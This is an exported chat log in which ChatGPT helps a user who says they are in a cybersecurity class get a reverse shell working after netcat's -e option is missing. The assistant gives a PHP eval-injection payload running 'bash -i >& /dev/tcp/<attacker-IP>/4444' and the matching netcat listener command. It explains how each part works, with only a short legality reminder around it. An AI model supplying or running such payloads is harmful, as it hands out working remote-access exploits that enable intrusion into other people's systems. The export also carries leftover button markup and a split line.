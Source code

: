 **Security Reminder**: Both setting up a reverse shell and exploiting the `eval()` function in this way should only be done within the context of your cybersecurity class, under controlled and legal conditions. Unauthorized access to computer systems is illegal and unethical.

As for a reverse proxy, this is a different concept often used to route traffic to different servers or services behind the scenes. If you are aiming to teach about proxies and their security implications, setting up a reverse proxy would usually involve configuring a web server like Nginx or Apache to forward requests to other servers. This is not directly related to establishing reverse shells.



------------------

**You:**

-e is not available on my version of ubuntu. here are my options:

nc: invalid option -- 'e'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s sourceaddr] [-T keyword] [-V rtable] [-W recvlimit]
	  [-w timeout] [-X proxy_protocol] [-x proxy_address[:port]]
	  [destination] [port]

------------------

**ChatGPT:**

If the `-e` option is not available on your version of Netcat, there are alternative methods to create a reverse shell. One common technique is to use file descriptors to redirect input and output to create a pseudo-terminal on the server. Below is an example using Bash, which is often the default shell on many Linux distributions.

Instead of using `nc -e /bin/bash`, you can use a Bash one-liner to achieve a similar result:

```php<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
0; $result=shell_exec('bash -i >&amp; /dev/tcp/<attacker-IP>/4444 0>&amp;1'); //

```
Here is what this command does:


- `bash -i`: Invoke Bash with an interactive shell
- `>& /dev/tcp/
/4444`: Redirect standard output (stdout) to the TCP connection to the attacker’s IP on the specified port.
- `0>&1`: Redirect standard input (stdin) to stdout, effectively tying the input of the shell to the TCP connection.

Replace `<attacker-IP>` with the attacker's actual IP address and ensure the specified port (4444 in the example where you set up Netcat to listen) is the same.

On the attacker's side, you would still set up Netcat to listen for the incoming connection:

```sh<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
nc -lvp 4444

```
Ensure that the firewall settings on the attacker's machine allow for incoming connections on the chosen port. Also, be aware that `/dev/tcp` is a Bash-specific feature and not a real file system object; it may not work in shells that do not implement this feature.
